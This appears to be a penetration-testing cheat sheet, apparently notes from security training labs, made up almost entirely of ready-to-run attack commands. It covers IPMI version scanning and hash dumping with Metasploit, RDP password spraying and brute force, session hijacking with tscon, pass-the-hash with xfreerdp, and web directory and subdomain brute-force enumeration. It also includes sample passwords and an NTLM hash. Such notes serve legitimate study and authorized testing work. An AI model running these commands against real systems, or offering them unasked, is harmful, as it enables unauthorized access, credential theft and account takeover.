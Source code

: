 ```shell-session
sudo nmap -sU --script ipmi-version -p 623 ilo.domain.local
```

Metasploit:

```shell-session
use auxiliary/scanner/ipmi/ipmi_version
```

Dumping hashes:

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
```



# RDP

Password spraying: `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`

Brute force: `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`

Connect: `rdesktop -u admin -p password123 192.168.2.143, xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25

Impersonate a user without privilege: `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`

Pass the hash: `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`

Connect to a Windows target using the Remote Desktop Protocol (RDP): `xfreerdp /v:IP /u:username /p:password`


<span style="color:#33FFE3">WEB</span>  

# Directory/File Enumeration

Gobuster: `gobuster dir -u http://IP/ -w /usr/share/dirb/wordlists/common.txt`


# DNS Subdomain Enumeration

Gobuster: 
`gobuster dns -d domain.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`

Subdomain brute force:

```
for sub in $(cat /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt);do dig $sub.domain.htb @IP | grep -v ';\|SOA' | sed -r '/^\s*$/d' | grep $sub | tee -a subdomains.txt;done
```

```
dnsenum --dnsserver IP --enum -p 0 -s 0 -o subdomains.txt -f /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt domain.htb
```
